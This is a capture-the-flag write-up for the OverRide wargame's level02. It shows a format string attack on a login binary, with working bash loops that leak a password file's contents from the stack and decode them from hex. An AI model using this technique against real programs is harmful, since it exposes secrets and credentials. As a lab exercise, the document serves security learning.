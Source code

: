 # level02

In this level, we have a program that takes two inputs:

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: lol
--[ Password: lol
*****************************************
lol does not have access!
```

As usual, let's start by decompiling the [source code](./source.c) with *Cutter*.
The `fgets` calls are safe, and the buffers are large enough to hold the input values.
This means there's no buffer overflow — so we’ll have to try a different approach.
We can see that the flag is being read and stored into a buffer:

```c
FILE* file = fopen("/home/users/level03/.pass", "r");
size = fread(file_content, 1, 0x29, file);
```

On line 60, there's an unsafe `printf` call using the `username` buffer.
This give us an opportunity to perform a **format string attack**.
Let’s try reading the stack to locate the flag:

```bash
for ((i = 1; i < 42; i++)); do echo -e "$i - %$i\$p\nAAAA" | ./level02 | grep "does"; done
```

Sample output:

```bash
1 - 0x7fffffffe4f0 does not have access!
2 - (nil) does not have access!
3 - 0x41 does not have access!
4 - 0x2a2a2a2a2a2a2a2a does not have access!
5 - 0x2a2a2a2a2a2a2a2a does not have access!
6 - 0x7fffffffe6e8 does not have access!
7 - 0x1f7ff9a08 does not have access!
8 - 0x41414141 does not have access!
...
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
...
```

From offsets 22 to 26, we can see some unusual values — these are likely parts of the flag.
To extract and decode them, we need to:

- Extract the values.
- Remove the 0x prefix.
- Convert them from hexadecimal to ASCII.
- Reverse the bytes (due to little-endian encoding).

Let’s put this all together in a simple script:

```bash
for ((i = 22; i < 27; i++)); do
    echo -e "%$i\$p\nAAAA" | \
    ./level02 | \
    grep "does" | \
    awk '{printf("%s", substr($1, 3))}' | \
    xargs -I{} python -c 'import sys; sys.stdout.write("{}".decode("hex")[::-1]); sys.stdout.flush()';
done; echo
<flag>
```

Now let's try using this flag as the password:

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: lol
--[ Password: <flag>
*****************************************
Greetings, lol!
$ cat /home/users/level03/.pass
<flag>
```
